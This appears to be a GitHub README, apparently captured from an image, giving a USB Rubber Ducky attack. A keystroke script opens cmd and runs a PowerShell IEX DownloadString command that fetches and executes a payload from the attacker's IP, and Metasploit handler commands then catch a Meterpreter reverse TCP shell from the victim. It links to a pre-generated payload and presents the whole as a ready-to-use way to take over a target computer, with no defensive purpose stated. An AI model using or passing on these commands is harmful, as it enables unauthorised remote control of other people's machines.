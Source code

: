 * Author - Ujjwal Thakran

* When You insert the ducky it will run a Powershell download command from which you can use you Kali linux or If you have Metasploit properly installed than also you mac or other Linux Distros to create a meterpeter session with the target computer

* Alternative to [Payload Reverse Shell](https://github.com/hak5darren/USB-Rubber-Ducky/wiki/Payload---reverse-shell)

1. Encode your usb rubber Ducky with the Following


```
REM Replace the Site/IP address with you Kali linux IP Address
DELAY 800
GUI r
DELAY 800
STRING cmd
DELAY 300
ENTER
DELAY 300
STRING powershell IEX (New-Object Net.WebClient).DownloadString('(Site/IP address)/powershell.ps1')
DELAY 300
ENTER
```



#### I suggest using [Ducky Encoder](https://ducktoolkit.com/encoder/) for this Payload 

2. Create a PowerShell Meterpreter reverse TCP payload and Place it on your Host Computer 
#### Use This to create the Payload [Powershell Payload generator](https://github.com/b00stfr3ak/Powershell-Reverse-Rubber-Ducky))

Here is the Powershell Payload I generated for My IP

#### [Payload Link](https://pastebin.com/c7xrRCY9)

3. Fire up MSFCONSOLE and start the listener:



```
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST (Your IP)
set LPORT (Your PORT #)
run
```




4. Insert the USB rubber ducky in and wait for the magic to happen

##### And Thats It folks You can run custom


```
Shell
```


#### After that


* ###### Contact Me on Github or Email me at (ujjwalthakran@hotmail.com) For Edit or help Thanks
